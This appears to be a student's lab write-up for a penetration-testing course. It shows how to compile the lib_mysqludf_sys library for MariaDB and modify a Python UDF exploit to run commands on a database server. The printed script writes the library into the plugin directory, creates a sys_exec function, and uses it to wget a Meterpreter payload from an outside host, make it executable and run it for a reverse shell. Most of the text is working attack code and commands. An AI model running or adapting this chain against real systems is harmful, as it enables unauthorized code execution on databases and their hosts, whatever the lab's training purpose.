



### 24.5.1.1 Exercises
#### 1. Modify the original Python exploit and capture the reverse shell.

1. Cloned mysql udf exploit from https://github.com/mysqludf/lib_mysqludf_sys.git

   ```bash
   git clone https://github.com/mysqludf/lib_mysqludf_sys.git
   ```

2. Modified makefile of exploit for a mariaDB instance

   ```bash
   gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
   ```

3. Compiled to binary and dumped binary to plain hex format for use in script shellcode, removing the line breaks

   ```bash
   make
   xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_s
   ys.so.hex
   ```

4. Inserted my shellcode into the python script and made other modifications so it would work in our situation where mysql isn't running as root and we are not running the exploit locally:

   ```python
   import sys
   import subprocess
   import platform, random
   import argparse
   import os
   import re
   import pty
   
   ##### Inserted my custom shellcode
   shellcode_x32 = SHELLCODE_FROM_ABOVE
   shellcode_x64 = SHELLCODE_FROM_ABOVE
   
   shellcode = shellcode_x32
   if (platform.architecture()[0] == '64bit'):
    shellcode = shellcode_x64
   
   parser = argparse.ArgumentParser()
   parser.add_argument('--username', '-u', help='MySQL username', type=str, required=True)
   parser.add_argument('--password', '-p', help='MySQL password', type=str)
   
   args = parser.parse_args()
   
   username=args.username
   password=args.password	
   
   if not password:
   	password=''
   	
   cmd='mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "select @@plugin_dir \G"'
   plugin_str = subprocess.check_output(cmd, shell=True)
   plugin_dir = re.search('@plugin_dir: (\S*)', plugin_str)
   res = bool(plugin_dir)
   
   if not res:
    print "Error: could not locate the plugin directory"
    os.exit(1);
   	
   plugin_dir_ = plugin_dir.group(1)
   
   print "Plugin dir is %s" % plugin_dir_
   
   udf_filename = 'udf' + str(random.randint(1000,10000)) + '.so'
   udf_outfile = plugin_dir_ + udf_filename
   
   print "Trying to create a udf library...";
   os.system('mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "select binary 0x' + shellcode + ' into dumpfile \'%s\' \G"' % udf_outfile)
   ### Removed check for file since we can't check the filesystem remotely
   
   print "UDF library crated successfully: %s" % udf_outfile;
   print "Trying to create sys_exec..."
   os.system('mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "create function sys_exec returns int soname \'%s\'\G"' % udf_filename)
   
   print "Checking if sys_exec was crated..."
   cmd='mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "select * from mysql.func where name=\'sys_exec\' \G"';
   res = subprocess.check_output(cmd, shell=True);
   
   if (res == ''):
   	print "sys_exec was not found (good luck next time!)"
   
   if res:
   	print "sys_exec was found: %s" % res
   #### Changed commands to download meterpreter exploit and run it
   	print "Getting meterpreter exploit"
           os.system('mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "select sys_exec(\'wget http://192.168.119.216/met.elf\')"')
   	print "Adding execute permissions"        
           os.system('mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "select sys_exec(\'chmod +x met.elf\')"')
      	print "Running exploit, it will hang here until meterpreter is closed"
           os.system('mysql -h 127.0.0.1 -P 13306 -u root -p\'' + password + '\' -e "select sys_exec(\'./met.elf\')"')
   	pty.spawn("/tmp/sh");
   
   ```

5. Ran python script & received reverse shell with meterpreter:

   

   

#### 2. The original UDF exploit is advertised as a privilege escalation exploit. Why are we getting an unprivileged shell?

Because the original specifies that mysql must be running as root.  However, this instance is running as the mysql user instead of root.
